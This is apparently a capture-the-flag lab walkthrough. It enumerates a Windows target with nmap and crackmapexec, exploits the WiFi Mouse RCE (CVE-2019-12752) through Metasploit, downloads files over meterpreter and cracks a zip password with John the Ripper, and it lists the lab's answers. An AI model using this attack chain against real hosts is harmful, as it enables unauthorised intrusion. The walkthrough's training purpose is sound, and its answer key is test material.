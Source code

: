 # 04 - Shadow Track (Lab)

Close surveillance allowed us to identify a member of a hacker group named Harry while he was working in a cafe. We believe that Harry was using the cafe's Wi-Fi network to launch various cyber-attacks. This gives us the opportunity to learn more about his activities by accessing his computer through the cafe's network.

Your task is to infiltrate Harry's computer via the cafe's Wi-Fi network and uncover the cyber attacks and communication networks of this hacker group.


Questions Walkthrough:1. What is the name of the target computer?

To begin, we need to enumerate the ports and services running on Harry's computer. We can use nmap for this purpose.
```
 nmap -p- --open -n --max-retries 5000 -sS -vvv -Pn 172.20.31.12 -oG allPorts
```

![](../Assets/Pasted%20image%2020251028154318.png)


Then lets perform a more in depth scan on the open ports

```
nmap -sSVC -p135,139,445,1978,5040,49664,49665,49666,49667,49668,49669,49672 172.20.31.12
```

Since its running SMB lets try to make a crackmapexec to get the name of the computer.
```
crackmapexec smb 172.20.31.12
```

![](../Assets/Pasted%20image%2020251028153926.png)


Answer:DESKTOP-BG4O059

Question 2: What is the operating system of the target computer?
Answer: Windows 10
Question 3: What is the domain name of the website whose user information was compromised by the hacker group?
Lets look for vulnerabilities on open ports.
```
1978: WiFi Mouse service
```
What is WiFi Mouse RCE?

CVE-2019–12752

WiFi Mouse is a legitimate application, but versions up to 1.7.5.9 contain a critical vulnerability:

Lets head to msfconsole and search for it.
```
msfconsole
search wifi_mouse
```

![](Assets/Pasted%20image%2020251028154958.png)


After enumerating if we go to cd C:\Users\Harry\Desktop we can find three interesting files:
1. **response.txt** — Large file (likely contains stolen data)
2. **Telegram.txt** — Communication information
3. **malware.zip** — Malicious software used by the group

Lets look for the domain name on the response.txt file.
```
findstr /R /C:"http[s]*://[a-zA-Z0-9./?=_-]*" response.txt
```

![](Assets/Pasted%20image%2020251028155454.png)

Answer: trustbank.hv

Question 4: What is the number of compromised user data?
Lets count the number of lines on the response.txt file and filter only the email addresses.
```
findstr /R /C:"[a-zA-Z0-9._-]*@[a-zA-Z0-9.-]*" response.txt | find /c /v ""
```

Question 5: What are any of the other websites targeted by the hacker group?
Lets enumerate a bit more
```
cd C:\Users\Harry\Documents\hack
dir
```

![](Assets/Pasted%20image%2020251028155942.png)


Here we have a targets_domains.txt lets see the content
```
type target_domains.txt
```

Answer: primelogistics.hv

Question 6: What is the group participation link to the platform on which the hacker group communicates?

If we read the previous Telegram.txt file there we can find the link

Answer: t.me/+37NnWAZY2HTaYjM9A

Question 7: What is the MD5 hash value of the malware used by the hacker group?
Lets find the malware.zip file and download it to our machine. Lets make a command to find any file that has malware on its name on Windows.
```
dir /s /b | findstr /i "malware"
```
Found it on C:\Users\Harry\Downloads\malware.zip

Lets download it from the meterpreter session
```
download C:\Users\Harry\Downloads\malware.zip
```
Then if we try to unzip it in linux it asks for a password.
```
zip2john malware.zip > ziphash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt ziphash.txt
```


![](Assets/Pasted%20image%2020251028162050.png)

Lets unzip it now
```
unzip malware.zip
```
And finally calculate the md5 hash of the malware file

```
md5sum malware.exe
```


Answer: 035bce7b8ecd5e46298e2666c5ba2fb2